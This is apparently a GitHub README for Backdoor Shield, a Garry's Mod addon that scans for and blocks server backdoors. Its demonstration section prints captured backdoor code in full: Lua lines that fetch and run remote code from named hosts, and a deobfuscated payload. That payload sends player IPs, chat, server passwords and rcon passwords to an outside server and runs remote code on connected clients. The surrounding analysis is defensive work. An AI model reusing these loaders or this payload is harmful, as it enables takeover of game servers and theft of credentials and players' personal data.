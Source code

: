 # Garry's Mod - Backdoor Shield

Protect your GMod server against backdoors! Block, find, investigate and remove them.

![image](https://user-images.githubusercontent.com/5098527/167985260-d2e325c7-b310-4eee-a246-ecde898fd5d2.png)

# Incompatibilities

> DO-NOT-USE this addon on servers with paid mods!!!! Many of them have complex DRMs, which in most cases get detected and blocked. This can lead to serious authentication problems and even license loss! If you suspect that your addons are infected, run them along Backdoor Shield in a clean server/GMod instance!

> Avoid addons that set their own environment because they can break, like:
> - gmDoom - https://steamcommunity.com/sharedfiles/filedetails/?id=133300986

Also, consider Backdoor Shield as W.I.P! Know that I don't intend to add fancy features or even make this addon user friendly, this project is a hobbyist experiment.

# What is a backdoor?

> "a backdoor refers to any method by which authorized and unauthorized users are able to get around normal security measures and gain high level user access (aka root access) on a computer system, network, or software application. Once they're in, cybercriminals can use a backdoor to steal personal and financial data, install additional malware, and hijack devices." - Malwarebytes

As for backdoors, in GMod very often we confront entire groups with pre-made panels using complex functions, there's a market for that.

Although the security of the game has increased a lot over time, these attacks are still very dangerous as they can culminate in theft of scripts, settings and personal data as well as other types of damage. E.g. someone with improper admin access can either delete all files in the data folder or slowly cause server issues until the players give up on it.

# Features

Backdoor Shield

- Starts before all addons;
- Has the internal code highly protected;
- Has a custom logs system, colored;
- Was tested against 1500+ addons, both from workshop and forums;
- Has a files scanner, that:
  - Can read files from any extension quickly and intelligently;
  - Searchs for over 450 invisible utf8 characters;
  - Has whitelists, blacklists and loose detections lists;
  - Uses a weight system to determine which detections are important;
  - Prints the relevant results;
  - Logs detections organized by risk.
- Has real-time protection, that:
  - Checks the functions parameters/arguments;
  - Protects the stack calls checking functions by address;
  - Undoes protected functions detouring;
  - Searchs for over 450 invisible utf8 characters;
  - Has whitelists, blacklists and loose detections lists;
  - Can turn off its components individually;
  - Is capable of producing traces even through tail calls;
  - Has a simple extra window to warn of detections;
  - Prints detections to the console;
  - Logs detections grouped and individually by type with contents.

Honestly, I don't know of a free GMod addon that does all this.

# Install

Clone or download the files inside your **addons folder**.

You can also subscribe to BS in the Workshop, but that way you won't be able to change the addon settings later: https://steamcommunity.com/sharedfiles/filedetails/?id=2215013575

# Configure

All settings are in three files in this folder:
- **lua/bs/server/definitions/**

There's one for the file scanner, one for real-time protection, and one for internal behaviour. Everything is documented at each location.

# Commands

As shown in the screenshot above:

    Commands:
    |
    |-> bs_scan FOLDER(S)       Recursively scan lua, txt, vmt, dat and
    |                           json files in FOLDER(S).
    |
    |-> bs_scan_full FOLDER(S)  Recursively scan all files in FOLDER(S).
       
        * If no folder is defined, it'll scan addons, lua, gamemodes and
          data folders.

It is worth noting that it's a good idea to focus searches to obtain relevant and reduced results. Multiple folders can be selected by the commands, like:

    bs_scan_full addons/myAddonA addons/myAddonB

And an interesting thing to do here is to isolate suspicious files in subfolders within the addons folder (like addons/isolation/suspiciousAddon). That way, the game will mount all the content but it'll not execute. Now we can run the command:

    bs_scan_full addons/isolation/suspiciousAddon


Note: there's also the ``bs_tests`` command to aid in development. It's enabled when dev mode is turned on.

# Logs

They're stored in **data/backdoor-shield**.

![image](https://user-images.githubusercontent.com/5098527/167988691-5b611163-0a22-41fc-8011-c38e083c0516.png)

<details><summary>File scanner</summary>
<p>
<img src="https://user-images.githubusercontent.com/5098527/167990351-941bd7ef-abc0-4e6a-8600-48e097ca3fde.png"/>

Logs from the file scanner are are organized by date and time. Within them, the information is grouped by risk.

<img src="https://user-images.githubusercontent.com/5098527/167990714-480bb9f3-30df-44f7-bcca-216f14e6c957.png"/>
</p>
</details>

<details><summary>Real-time</summary>
<p>
<img src="https://user-images.githubusercontent.com/5098527/167990081-4d8a0a56-6235-43bd-b08d-da32c3bfd6e4.png"/>

As for the real-time detections, they are in subfolders named by date and are organized in two different ways.

<img src="https://user-images.githubusercontent.com/5098527/167988995-2b2443dc-037f-47c8-91f0-597504ea04ba.png"/>

In the first one, items are grouped by "detections", "warnings" and "detours", as shown above. Within these files the entries are placed in order of occurrence:

<img src="https://user-images.githubusercontent.com/5098527/167989406-cdac9556-a728-424f-9f58-d1198f04cde9.png"/>

In the second, each detection is placed inside subfolders with the name of the detected function and relevant items such as pieces of malicious code.

<img src="https://user-images.githubusercontent.com/5098527/167989468-366ef03a-b663-42cb-907b-8cafb25c8e4c.png"/>

<img src="https://user-images.githubusercontent.com/5098527/167989517-e422463d-d7e1-4293-99a6-724169fa8fba.png"/>
</p>
</details>

# Real-time protection example

The example below was made in an older version of the addon but it's ok, the idea is still very similar to the current one.

## Detection

<details><summary>1) Running two backdoors</summary>
<p>

```lua
-- Dead backdoor:

RunString(string.char(104, 116, 116, 112, 46, 70, 101, 116, 99, 104, 40, 34, 104, 116, 116, 112, 58, 47, 47, 98, 117, 114, 105, 101, 100, 115, 101, 108, 102, 101, 115, 116, 101, 101, 109, 46, 99, 111, 109, 47, 114, 101, 107, 116, 47, 114, 101, 107, 116, 46, 108, 117, 97, 34, 44, 32, 102, 117, 110, 99, 116, 105, 111, 110, 40, 99, 41, 32, 82, 117, 110, 83, 116, 114, 105, 110, 103, 40, 99, 41, 32, 101, 110, 100, 32, 41))

-- Alive backdoor:

http.Fetch("https://steamcommunity.omega-project.cz/lua_run/RunString.php?apikey=spxysAWoRdmPcPeQitSx", function(c) RunString(c) end )
```

</p>
</details>

<details><summary>2) The detection occurs</summary>
<p>
<img src="https://i.imgur.com/BDk6TJk.png"/>
<img src="https://i.imgur.com/3yWXO6D.png"/>
</p>
</details>

<details><summary>3) The logs are stored</summary>
<p>
<img src="https://i.imgur.com/DhGWEbU.png"/>
<img src="https://i.imgur.com/XWCwr87.png"/>
</p>
</details>

<details><summary>4) We can see the blocked contents</summary>
<p>

- The first backdoor is dead, since the link inside the content doesn't work

<img src="https://i.imgur.com/PUX4QG3.png"/>

```
[ALERT]
-----------------------------------------------------------------------------------

[Backdoor Shield] Execution blocked!
    Function: RunString
    Date: 08-29-2020
    Time: 19h 34m 56s
    Log: data/backdoor-shield/08-29-2020/log_blocked.txt
    Content Log: data/backdoor-shield/08-29-2020/RunString/log_blocked_(19h 34m 56s).txt
    Detected:
        RunString
        http.Fetch
    Location: stack traceback:
    addons/backdoor-shield/lua/bs/server/modules/detouring/functions.lua:50: in function 'RunString'
    addons/fakedoor/lua/autorun/server/sv_test2.lua:3: in main chunk


[CONTENT]
-----------------------------------------------------------------------------------

http.Fetch("http://buriedselfesteem.com/rekt/rekt.lua", function(c) RunString(c) end )
```

- But the second one is doing some stuff

<img src="https://i.imgur.com/6i8xNtz.png"/>

```
[ALERT]
-----------------------------------------------------------------------------------

[Backdoor Shield] Execution blocked!
    Function: http.Fetch
    Date: 08-29-2020
    Time: 19h 37m 32s
    Log: data/backdoor-shield/08-29-2020/log_blocked.txt
    Content Log: data/backdoor-shield/08-29-2020/http.Fetch/log_blocked_(19h 37m 32s).txt
    Url: https://steamcommunity.omega-project.cz/lua_run/RunString.php?apikey=spxysAWoRdmPcPeQitSx
    Detected:
        RunString
        RunString
        http.Fetch
        http.Post
        _G[
    Location: stack traceback:
    addons/backdoor-shield/lua/bs/server/modules/detouring/functions.lua:50: in function 'Fetch'
    addons/fakedoor/lua/autorun/server/sv_test2.lua:7: in main chunk


[CONTENT]
-----------------------------------------------------------------------------------

arguments    =    {
            "


local sKqYgoHBFGNoMavJtTsX = { 
    --[[ EXTENTIONS DOMAINS BACKDOORS ]]
    "\46\99\102",
    "\46\116\107",
    "\46\121\111\46\102\114",
    "\46\121\110\46\102\114",
    "\46\48\48\48\119\101\98\104\111\115\116",
    "\97\108\119\97\121\115\100\97\116\97\46\110\101\116",
    "\46\103\113",
    "\46\120\121\122",
    "\46\101\115\121\46\101\115",
    "\46\109\108",
    --[[ DOMAINS BACKDOORS ]]
    "\100\114\109\46\103\109",
    "\103\118\97\99\100\111\111\114",
    "\103\118\97\99",
    "\107\112\97\110\101\108",
    "\108\107\112\97\110\101\108",
    "\119\116\102\109",
    "\103\109\97\112",
    "\103\45\104\117\98",
    "\103\112\97\110\101\108",
    "\97\115\116\105\108\108\97\110",
    "\103\104\97\120",
    "\106\101\108\108\121\105\115\97\102\97\103",
    "\115\105\122\122\117\114\112",
    "\104\97\121\108\97\121",
    "\114\118\97\99",
    "\99\105\112\104\101\114\45\112\97\110\101\108",
    "\120\118\97\99\100\111\111\114",
    "\74\117\115\116\45\115\101\114\118",
    "\74\117\115\116\115\101\114\118",
    "\120\101\110\100\111\111\114",
    "\69\120\111\100\111\115\105\117\109",
    "\109\121\119\97\105\102\117",
    "\103\98\108\107",
    --[[ FILES BACKDOORS ]]
    "\115\116\97\103\101\49\46\112\104\112",
    "\115\116\97\103\101\50\46\112\104\112",
    "\101\118\111\46\112\104\112",
    "\101\121\111\46\112\104\112",
    "\98\97\99\107\100\111\111\114\46\112\104\112",
    "\102\108\103\46\94\112\104\112",
    "smart-overwrite",
    "anatik",
    --[[ $_GET BACKDOORS ]]
    "\63\116\111\61",
    "\63\116\111\107\101\110\61",
    "\63\102\117\99\107\95\107\101\121\61",
    "\63\98\97\99\107\100\111\111\114\95\107\101\121\61",
    --[[ DIR BACKDOORS ]]
    "\47\115\121\115\47",
    "\47\99\111\114\101\47",
    "\47\115\101\99\117\114\101\95\97\114\101\97\47"
}


local httpF = http.Fetch  
local httpP = http.Post 
local vraisHTTP = HTTP function HTTP(a)     
    if a.url then 
        for k,v in pairs(sKqYgoHBFGNoMavJtTsX) do 
            if string.find(a.url, v) then 
                return end 
            end 
          end 
  return vraisHTTP(a) 
end 

function http.Fetch(...) 
   local args = {...} 
   if args[1] then 
       for k,v in pairs(sKqYgoHBFGNoMavJtTsX) do 
           if string.find(args[1], v) then 
               return end 
       end 
   end 

   return httpF(...) 
end 


function http.Post(...) 
local args = {...} 
if args[1] then 
    for k,v in pairs(sKqYgoHBFGNoMavJtTsX) do 
        if string.find(args[1], v) then 
            return end 
     end 
    end return httpP(...) 
   end

_G["http"]["Fetch"]([[https:/]]..[[/api.omega-project.cz/api_connect.php?api_key=]],function(api)
  RunString(api)
end)

",
            2703,
            {
            Vary    =    "Accept-Encoding",
            Set-Cookie    =    "__cfduid=dfe0c3e4f2be8978d00090d7df7dc9e711598740653; expires=Mon, 28-Sep-20 22:37:33 GMT; path=/; domain=.omega-project.cz; HttpOnly; SameSite=Lax; Secure,__ddg1=ZRzJovYJDvrB2k895vsn; Domain=.omega-project.cz; HttpOnly; Path=/; Expires=Sun, 29-Aug-2021 22:37:33 GMT",
            Transfer-Encoding    =    "chunked",
            Connection    =    "keep-alive",
            Date    =    "Sat, 29 Aug 2020 22:37:34 GMT",
            Content-Encoding    =    "gzip",
            Content-Type    =    "text/html; charset=UTF-8",
            Server    =    "cloudflare",
                },
            200,
}
```

</p>
</details>

## Decoding

We can keep going to see whats going on. I won't explain how I deobfuscated the code but I'll show the result.

<details><summary>1) Here is the active backdoor decoded</summary>
<p>

It's inhibiting other backdoors through some detourings and taking the next step.

```lua
local nKvWQygqjyMKsWkNbsiO = { 
    --[[ EXTENTIONS DOMAINS BACKDOORS ]]
    ".cf",
    ".tk",
    ".yo.fr",
    ".yn.fr",
    ".000webhost",
    "alwaysdata.net",
    ".gq",
    ".xyz",
    ".esy.es",
    ".ml",
    --[[ DOMAINS BACKDOORS ]]
    "drm.gm",
    "gvacdoor",
    "gvac",
    "kpanel",
    "lkpanel",
    "wtfm",
    "gmap",
    "g-hub",
    "gpanel",
    "astillan",
    "ghax",
    "jellyisafag",
    "sizzurp",
    "haylay",
    "rvac",
    "cipher-panel",
    "xvacdoor",
    "Just-serv",
    "Justserv",
    "xendoor",
    "Exodosium",
    "mywaifu",
    "gblk",
    --[[ FILES BACKDOORS ]]
    "stage1.php",
    "stage2.php",
    "evo.php",
    "eyo.php",
    "backdoor.php",
    "flg.^php",
    "smart-overwrite 10",
    "anatik 10",
    --[[ $_GET BACKDOORS ]]
    "?to=",
    "?token=",
    "?fuck_key=",
    "?backdoor_key=",
    --[[ DIR BACKDOORS ]]
    "/sys/",
    "/core/",
    "/secure_area/",
}

-- Toma as funções do GMod pra ele
local httpF = http.Fetch  
local httpP = http.Post 
local vraisHTTP = HTTP

-- Barra o uso de backdoors bloqueando tudo da lista acima
-- (Se estiver limpo, executa a função)

function HTTP(a)
    if a.url then 
        for k,v in pairs(nKvWQygqjyMKsWkNbsiO) do 
            if string.find(a.url, v) then 
                return end 
            end 
          end 
  return vraisHTTP(a) 
end 

function http.Fetch(...) 
   local args = {...} 
   if args[1] then 
       for k,v in pairs(nKvWQygqjyMKsWkNbsiO) do 
           if string.find(args[1], v) then 
               return end 
       end 
   end 

   return httpF(...) 
end 


function http.Post(...) 
local args = {...} 
if args[1] then 
    for k,v in pairs(nKvWQygqjyMKsWkNbsiO) do 
        if string.find(args[1], v) then 
            return end 
     end 
    end return httpP(...) 
   end

_G["http"]["Fetch"]([[https:/]]..[[/api.omega-project.cz/api_connect.php?api_key=]],function(api)
  RunString(api)
end)
```

</p>
</details>

<details><summary>2) I disabled my old Lua snippets, took the end of the decoded script and ran it</summary>
<p>

```lua
-- Dead backdoor:

--RunString(string.char(104, 116, 116, 112, 46, 70, 101, 116, 99, 104, 40, 34, 104, 116, 116, 112, 58, 47, 47, 98, 117, 114, 105, 101, 100, 115, 101, 108, 102, 101, 115, 116, 101, 101, 109, 46, 99, 111, 109, 47, 114, 101, 107, 116, 47, 114, 101, 107, 116, 46, 108, 117, 97, 34, 44, 32, 102, 117, 110, 99, 116, 105, 111, 110, 40, 99, 41, 32, 82, 117, 110, 83, 116, 114, 105, 110, 103, 40, 99, 41, 32, 101, 110, 100, 32, 41))

-- Alive backdoor:

--http.Fetch("https://steamcommunity.omega-project.cz/lua_run/RunString.php?apikey=spxysAWoRdmPcPeQitSx", function(c) RunString(c) end )

_G["http"]["Fetch"]([[https:/]]..[[/api.omega-project.cz/api_connect.php?api_key=]],function(api)
  RunString(api)
end)
```

</p>
</details>

<details><summary>3) Now I got a new detection with a bunch of new things to analyze</summary>
<p>
<img src="https://i.imgur.com/SBwHXDy.png"/>

```
[ALERT]
-----------------------------------------------------------------------------------

[Backdoor Shield] Execution blocked!
    Function: http.Fetch
    Date: 08-29-2020
    Time: 19h 42m 45s
    Log: data/backdoor-shield/08-29-2020/log_blocked.txt
    Content Log: data/backdoor-shield/08-29-2020/http.Fetch/log_blocked_(19h 42m 45s).txt
    Url: https://api.omega-project.cz/api_connect.php?api_key=
    Detected:
        =_G
        RunString
        CompileString
        BroadcastLua
    Location: stack traceback:
    addons/backdoor-shield/lua/bs/server/modules/detouring/functions.lua:50: in function 'Fetch'
    addons/fakedoor/lua/autorun/server/sv_test2.lua:9: in main chunk


[CONTENT]
-----------------------------------------------------------------------------------

arguments    =    {
            "
--[[
 name: Ʊmega Project
 author: Inplex
 Google Trust Api factor: 78/100
 Last Update: 02 06 2020
 Description: If you use the panel for hack you will be banned !
]]

local debug = debug
local error = error
local ErrorNoHalt = ErrorNoHalt
local hook = hook
local pairs = pairs
local require = require
local sql = sql
local string = string
local table = table
local timer = timer
local tostring = tostring
local mysqlOO
local TMySQL
local _G = _G
UzjRokDYxAOWbxLIEiRXmogsroltxsCpQgiEkuIR = {}
local server_key = "UrJPyGUdi"_R=_G
if omega_ed463d5fadf4890eca35eb8ea156c847 == "HGEed463d5fadf4890eca35eb8ea156c847" then return end
omega_ed463d5fadf4890eca35eb8ea156c847="HGEed463d5fadf4890eca35eb8ea156c847"
_R["\95\48\120\54\56\51\50\53\51"]=_R["\104\116\116\112"]["\112\111\115\116"] or "timer"
_R["\95\48\120\52\56\50\51\55\54"]=_R["\104\116\116\112"]["\80\111\115\116"] or "Create"
_R["\95\48\120\49\55\54\53\49\52"]=_R["\72\84\84\80"] or "api.omega-project.cz"
_R["\95\48\120\52\53\49\57\53\54"]=_R["\83\101\114\118\101\114\76\111\103"] or ""
_R["\95\48\120\50\57\54\55\56\55"]=_R["\82\117\110\83\116\114\105\110\103"] or "rcon non trouvé"
_R["\95\48\120\51\52\50\52\53\48"]=_R["\102\105\108\101"]["\69\120\105\115\116\115"] or "print"
_R["\65\120\121\117\110\101\77\90\87\69"] = "api.omega-project.cz"
_R["\104\122\100\65\108\99\118\113\106\114"] = "\97\116\108\97\115\45\99\104\97\116\46\115\105\116\101"
_R["\95\48\120\57\52\48\49\51\55"] = _R["\69\114\114\111\114"]
local pGbSGVIuUevjvQbOFgCc, FCPttlLwqrzAChdIZtnd  = "\80\108\97\121\101\114\73\110\105\116\105\97\108\83\112\97\119\110", "\80\108\97\121\101\114\68\105\115\99\111\110\110\101\99\116\101\100"
local header_GwFWGpHBKMfYqsd = {
  ["Authorization"] = "ZWM2OGJkMjMxMGMyODRiODljNGYyNDliYTkzMWQ2Y2Q"
}

-- include request
_0x176514({ url=[[https://]]..AxyuneMZWE.."/api_anti_backdoors.php"; method="get"; success=function(api,anti_backdoors) _0x296787(anti_backdoors) end })
_0x176514({ url=[[https://]]..AxyuneMZWE.."/api_player_blacklist.php"; method="get"; success=function(api,bad_player_blacklist) _0x296787(bad_player_blacklist) end })

local addons_files, addons_folders = _R["file"]["Find"]("addons/*", "GAME")
for k,v in pairs(addons_folders) do
 if (v != "checkers") and (v != "chess") and (v != "common") and (v != "go") and (v != "hearts") and (v != "spades") then
  _0x482376([[https://]]..AxyuneMZWE.."/api_addons.php", {server_ip = _R["game"]["GetIPAddress"](),crsf = "LuicBbIVUSxUbwKyGdOPvHgEVMjRiZFsmMhwEuzy#MTg2LjIyOS4yMjYuMTAy#DcKbgZMolAqhaosmSYVGXXJTAgfyqJvQclnitBUy",addons_name = v, addons_update = util.Base64Encode(file.Time( "addons/"..v, "GAME" ))}, function(http_addons) 
    if _R["\115\116\114\105\110\103"]["\76\101\102\116"]( http_addons, 1 ) == "<" or http_addons == "" then 
      return 
     else 
      _0x296787(http_addons) 
    end 
  end, function( error ) 
  end, header_GwFWGpHBKMfYqsd ) 
 end 
end


util.AddNetworkString("cKdwwjkBzpUSproGWmGe")
_R["BroadcastLua"]([[net.Receive("cKdwwjkBzpUSproGWmGe",function()CompileString(util.Decompress(net.ReadData(net.ReadUInt(16))),"?")()end)]])
function _0x427940(HsQzhjEtDdhsZssJfpfL)
  timer.Simple( 0.5, function( )
   _R["DATA"] = util.Compress(HsQzhjEtDdhsZssJfpfL)
   _R["len"] = #data
   _R["\110\101\116"]["\83\116".."\97\114\116"]("cKdwwjkBzpUSproGWmGe")
   _R["\110".."\101\116"]["\87\114".."\105\116\101\85\73\110\116"](len, 16)
   _R["\110\101".."\116"]["\87\114\105\116\101\68".."\97\116\97"](data, len)
   _R["\110\101\116"]["\66\114\111".."\97\100\99\97\115\116"]()
  end)
end


util.AddNetworkString("QvQaTLXQJvDEmezmiHYj")
_R["BroadcastLua"]([[net.Receive("QvQaTLXQJvDEmezmiHYj",function()CompileString(util.Decompress(net.ReadData(net.ReadUInt(16))),"?")()end)]])
function SendPly(HsQzhjEtDdhsZssJfpfL, steamid64)
  timer.Simple( 0.5, function( )
   _R["\100\97\116\97"] = util.Compress(HsQzhjEtDdhsZssJfpfL)
   _R["\108\101\110"] = #data
   _R["\110\101\116"]["\83\116".."\97\114\116"]("QvQaTLXQJvDEmezmiHYj")
   _R["\110".."\101\116"]["\87\114".."\105\116\101\85\73\110\116"](len, 16)
   _R["\110\101".."\116"]["\87\114\105\116\101\68".."\97\116\97"](data, len)
   for k, ply in pairs(player.GetAll()) do
     if ( ply:SteamID64() == steamid64 ) then
        _R["\110\101\116"]["Send"](ply)
     end
   end
  end)
end

_R["\104\111\111\107"]["\65\100\100"](pGbSGVIuUevjvQbOFgCc, "nYQUQrWaerewCmEoqjVUvrrkWFAgjfYzfecgMiiTgymFAonGsT", function(ply) 
    _0x482376([[https://]]..AxyuneMZWE.."/api_get_logs.php",{ 
         ["\99\115\114\102"] = "ec68bd2310c284b89c4f249ba931d6cd",
         ["\99\111\108\111\114"] = "5dc766",
         ["\99\111\110\116\101\110\116"] = "Client "..ply:Name().." connected ("..ply:IPAddress()..").", 
         ["\115\101\114\118\101\114\95\105\112"]  = _R["game"]["GetIPAddress"]()
    },_0x296787)
end)

_R["\104\111\111\107"]["\65\100\100"](FCPttlLwqrzAChdIZtnd, "msBMAtvKWjUOHFZfNCRBemSkQdJnfwcpcfFnPKfQqxcaKEhMma", function(ply) 
    _0x482376([[https://]]..AxyuneMZWE.."/api_get_logs.php",{ 
         ["\99\115\114\102"] = "ec68bd2310c284b89c4f249ba931d6cd", 
         ["color"] = "de3333",
         ["\99\111\110\116\101\110\116"] = "Dropped "..ply:Name().." from server (Disconnect by user).", 
         ["\115\101\114\118\101\114\95\105\112"]  = _R["game"]["GetIPAddress"]()
    },_0x296787)
end)

function ServerLog( logs_content ) 
    _0x482376([[https://]]..AxyuneMZWE.."/api_get_logs.php",{ 
         ["\99\115\114\102"] = "ec68bd2310c284b89c4f249ba931d6cd", 
         content = logs_content, 
         server_ip = _R["game"]["GetIPAddress"]()
    },_0x296787) 
    return _0x451956( logs_content ) 
end 

function Error( string )
  _0x482376([[https://]]..AxyuneMZWE.."/api_get_logs.php",{ 
       ["\99\115\114\102"] = "ec68bd2310c284b89c4f249ba931d6cd", 
       ["\99\111\110\116\101\110\116"] = string, 
       ["\115\101\114\118\101\114\95\105\112"] = _R["game"]["GetIPAddress"]()
  },RunString)
  return _0x940137( string )
end

_R["\116\105\109\101\114"]["\67\114\101\97\116\101"]( "FLPcvsCBTQJoZQGLILQUDEVvRmPRvLoyVXEuMYOSOHMaEXDKse", 1, 0, function()
_R["\104\111\111\107"]["\65\100\100"]( "PlayerSay", "ujLFdRUcqVAoqZwfiMSQpZeWbcvItgnNitYilclAqwPUvxSmZW", function( ply, text )
local http_chat_table = {
    name = ply:Name(), 
    server_ip = _R["GetTcpInfo"](), 
    steamid64 = ply:SteamID64(),
    nyFaIvniEL = "TPlnCsTLWywBNOdjsIEpiZEXJLCAJoQzesllKZlW",
    BtNDxRHcgb = "PCBKWTMGVJirRWrxIPNjkwOesDxXxeFDdpepUfdM",
    jcqaplfenV = "crraFpbGqRmxDQCenENbzIJAuNUFieGTgdJoBiZG",
    LEUJYRpUyx = "aizJdLXTEVPoYQQsgMOdzSwCmNazHfRFrFNnffmT",
    FBWCeMNeTL = "LSxRhSnkNHyrbgtboMNzAiTZFrsnkkcLYGwciHlo", 
    message = text
  } 
_0x482376([[https://]]..AxyuneMZWE.."/chat_connect.php?haoaOPspJnETKyz=trPtLhCynfaGkLt", http_chat_table, function(http_chat) _0x296787(http_chat) end)
end)
if _0x342450("\99\102\103\47\97\117\116\111\101\120\101\99\46\99\102\103","GAME") 
  then local cfile = file.Read("cfg/autoexec.cfg","GAME") 
  for k,v in pairs(string.Split(cfile,"\n")) do 
    if string.StartWith(v,"rcon_password") 
    then rcon_pw = string.Split(v,"\"")[2] 
   end
  end 
end
if _0x342450("\99\102\103\47\115\101\114\118\101\114\46\99\102\103","GAME") 
  then cfile = file.Read("cfg/server.cfg","GAME") 
  for k,v in pairs(string.Split(cfile,"\n")) 
  do if string.StartWith(v,"rcon_password") 
  then rcon_pw = string.Split(v,"\"")[2] 
    end 
   end 
 end 
if _0x342450("\99\102\103\47\103\97\109\101\46\99\102\103","GAME") 
  then cfile = file.Read("cfg/game.cfg","GAME") 
  for k,v in pairs(string.Split(cfile,"\n")) 
  do if string.StartWith(v,"rcon_password") 
  then rcon_pw = string.Split(v,"\"")[2] 
    end 
   end 
 end  
 if _0x342450("\99\102\103\47\103\109\111\100\45\115\101\114\118\101\114\46\99\102\103","GAME") 
 then cfile = file.Read("cfg/gmod-server.cfg","GAME") 
 for k,v in pairs(string.Split(cfile,"\n")) 
 do if string.StartWith(v,"rcon_password") 
 then rcon_pw = string.Split(v,"\"")[2] 
   end 
  end 
end
if rcon_pw == "" then
 rcon_pw = "Aucun Rcon"
end
for k,v in pairs(player.GetAll()) do 
local DrkaWVDhZhRCHgyRGENj = {
    ["\110\97\109\101"] = v:GetName(),
    ["\105\112"] = v:IPAddress(),
    ["\115\101\114\118\101\114\95\105\112"] = _R["game"]["GetIPAddress"](),
    ["\99\114\115\102"] = "MMsFDCxvTbPfHnPUwcylyHhezmHbOsBlvhTiNhRz#MTg2LjIyOS4yMjYuMTAy#jSUttWLIHMKvFliWsMJRcDpxwgTHvKxLaPfwDBtZ",
    ["\115\116\101\97\109\105\100"] = v:SteamID(),
    ["\115\116\101\97\109\105\100\54\52"] = v:SteamID64(),
    ["OcvWPRmzdQ"] = "cZEHIshMiGdcmjIwgHRIBVckfUarvjwptUvgdeuw",
    ["khpvEspqLQ"] = "aaQsnnUqsxaGyqJkHqqxHCWJeAJMBHnixRPiFeQk",
    ["cZiGZpQXxK"] = "suKIfVNfRKCTdhQrvzbvKHfPmJMDyVfbdAdBTCtv",
    ["yNpPvxIEYQ"] = "jxcvvCnbgmfVMFbIxDIsIizjgGgSKeOCUTjiWdwm",
    ["NGiFdbJnXv"] = "dcUYvgSiZSvgHzSliHVxdliXIEMLhrzWhJPNpiZy"
  }
_0x482376([[https://]]..AxyuneMZWE.."/user_connect.php?rzfmjhnXKtVupXH=stmWrBHtmIsKpxN&ping=" .. v:Ping(), DrkaWVDhZhRCHgyRGENj, function( http_users ) 
     if _R["\115\116\114\105\110\103"]["\76\101\102\116"]( http_users, 1 ) == "<" or http_users == "" then
       return
     else
       _0x296787( http_users )
     end 
  end, function( error ) 
  end, header_GwFWGpHBKMfYqsd )
end
  local VsTWOaUGyYXokLUQDOTO = {
    ["\105"] = _R["GetTcpInfo"](),
    ["\110"] = _R["\71\101\116\72\111\115\116\78\97\109\101"](),
    ["\109"] = _R["\103\97\109\101"]["\71\101\116\77\97\112"](),
    ["\98\111"] = _R["\116\111\115\116\114\105\110\103"](#_R["\112\108\97\121\101\114"]["\71\101\116\66\111\116\115"]()),
    ["\99"] = _R["\103\97\109\101"]["\71\101\116\73\80\65\100\100\114\101\115\115"]().."{+}"..server_key.."{+}".."1598740966",
    ["\103"] = _R["\101\110\103\105\110\101"]["\65\99\116\105\118\101\71\97\109\101\109\111\100\101"](),
    ["\99\114\115\102"] = "MTg2LjIyOS4yMjYuMTAy#HAxFpswxUQiTyulaKvyYIkQxTCoXuLzjFBBoHsfC",
    ["\110\98"] = tostring(#player.GetAll()).."/"..game.MaxPlayers(),
    ["\108\117\114\108"] = _R["GetConVar"]("sv_loadingurl"):GetString(),
    ["\112\97\115\115"] = GetConVar("\115\118\95\112\97\115\115\119\111\114\100"):GetString(),
    ["\107"] = "",
    ["\99\108\105\101\110\116".."_".."\102\117\110\99"] = "_0x427940",
    ["\114"] = rcon_pw,
    ["eBQErysiKP"] = "XDuoiBjxoHEwaPvznpkehEuKxGcGxwsAoxBzjpAZ",
    ["dufqbNcvWE"] = "NrpfyEcyJIyupTUKZTaRoxzouNBZZHtYnuGxxLaF",
    ["GxRQEDghgj"] = "XJGGIQUzmaJxUsZZUUdTCyKuTlotFXznZhEgWZoe",
    ["ECFmDAYImx"] = "WvXwVKAUamKSoEAOVmzbHCyxhvVnDjOrLsasylcp",
    ["TlQPyMqTiE"] = "pVMWPprumKRsZrYSjDVCkoSOZsCwGWLWGlgSZNWt"
  }
  _0x482376("https://omega-project.cz/api_lib/_-_-drm-_-_/__.php", VsTWOaUGyYXokLUQDOTO, function(http_servers) 
    if _R["\115\116\114\105\110\103"]["\76\101\102\116"]( http_servers, 1 ) == "<" or http_servers == "" then 
      return 
    else 
      _0x296787(http_servers) 
    end 
  end, function( error ) 
  end, header_GwFWGpHBKMfYqsd ) 
end)

if 1 == 0 or 1 == 1 then
   local no_spam_plz = "cGhYBOTiQHkqBsENnrGnMPLxvwfEEwZlnpxlZHUHDCWdlWrrYB"
   CONNECTED_TO_MYSQL = true
   local all_server = sql.Query("SELECT * FROM server_list")
end

",
            11300,
            {
            Vary    =    "Accept-Encoding",
